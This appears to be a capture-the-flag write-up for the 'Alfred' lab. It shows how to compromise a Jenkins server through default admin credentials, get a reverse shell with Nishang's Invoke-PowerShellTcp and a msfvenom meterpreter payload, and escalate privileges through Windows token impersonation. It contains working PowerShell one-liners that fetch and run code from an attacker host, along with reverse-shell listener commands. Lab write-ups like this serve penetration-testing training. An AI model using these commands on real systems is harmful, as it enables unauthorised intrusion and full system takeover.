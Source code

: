 # Alfred 

# Task1 

Port scanning
```bash
nmap -sC -sV --script vuln -oG alfred.md <Target_IP>
```

The Jetkins located at targetip:8080 and user and pass is admin. After login we go to the project> configuration>build and donwload nishang [Invoke-PowershellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Open the tmux session and sepreate the terminal to two windows. The first one is running `python3 http.server` and the second one is running `nc -lnvp 9001`.

In build console section we need to type:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.119.20:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.119.20 -Port 9001
```

After that we hit the build button and we gain access to the system.

# Task 2 

Generate renverse tcp for with the help of msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe

```

Jetkins build:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Listener
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```
This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell.

```
Start-Process "shell-name.exe"
```
# Taks 3 

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:
- User SIDs(security identifier)
- Group SIDs
- Privileges

There are two types of access tokens:
- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

To impersonate user tokens when successfully compromising a system we need to load incognito.

```bash
>load incognito
```
To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available.
```bash
>list_tokens -g
>impersonate_token "BUILTIN\Administrators"
>getuid -g
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

```bash
>ps services.exe
>migrate <PID>
```
